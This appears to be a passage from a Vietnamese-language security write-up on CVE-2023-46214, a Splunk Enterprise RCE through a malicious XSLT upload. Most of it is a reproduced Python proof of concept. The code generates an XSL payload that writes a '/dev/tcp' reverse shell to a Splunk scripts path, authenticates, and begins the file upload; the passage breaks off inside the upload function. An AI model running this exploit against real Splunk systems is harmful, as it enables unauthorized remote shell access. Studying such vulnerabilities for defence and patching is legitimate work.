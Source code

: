 ### **CVE-2023-46214**

Ở phần này, mình chỉ tập trung chủ yếu vào tìm hiểu sơ về cách mà CVE này khai thác và tận dụng lỗ hổng để RCE vào hệ thống và chạy POC.

Các version Splunk bị ảnh hưởng bởi CVE này là dưới 9.0.7 và 9.1.2.

Lỗ hổng này attack khai thác từ việc tải file malicious XSLT lên Splunk Enterprise có thể dẫn tới việc remote code execution (RCE).

Mình tìm hiểu về CVE-2023-46214 thông qua blogs này [Analysis of CVE-2023-46214 + PoC (hrncirik.net)](https://blog.hrncirik.net/cve-2023-46214-analysis), và xem PoC này làm những gì:

```python
#!/usr/bin/env python3

import argparse
import requests
import json

# proxies = {"http": "<http://127.0.0.1:8080>", "https": "<http://127.0.0.1:8080>"}
proxies = {}

def generate_malicious_xsl(ip, port):
    return f"""<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="<http://www.w3.org/1999/XSL/Transform>" xmlns:exsl="<http://exslt.org/common>" extension-element-prefixes="exsl">
  <xsl:template match="/">
    <exsl:document href="/opt/splunk/bin/scripts/shell.sh" method="text">
        <xsl:text>sh -i &gt;&amp; /dev/tcp/{ip}/{port} 0&gt;&amp;1</xsl:text>
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
"""

def login(session, url, username, password):
    login_url = f"{url}/en-US/account/login?return_to=%2Fen-US%2Faccount%2F"
    response = session.get(login_url, proxies=proxies)
    cval_value = session.cookies.get("cval", None)

    if not cval_value:
        return False

    auth_payload = {
        "cval": cval_value,
        "username": username,
        "password": password,
        "set_has_logged_in": "false",
    }

    auth_url = f"{url}/en-US/account/login"
    response = session.post(auth_url, data=auth_payload, proxies=proxies)
    return response.status_code == 200

def get_cookie(session, url):
    response = session.get(url, proxies=proxies)
    return response.status_code == 200

def upload_file(session, url, file_content, csrf_token):
    files = {'spl-file': ('shell.xsl', file_content, 'application/xslt+xml')}
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "Accept": "text/javascript, text/html, application/xml, text/xml, */*",
        "X-Requested-With": "XMLHttpRequest",
```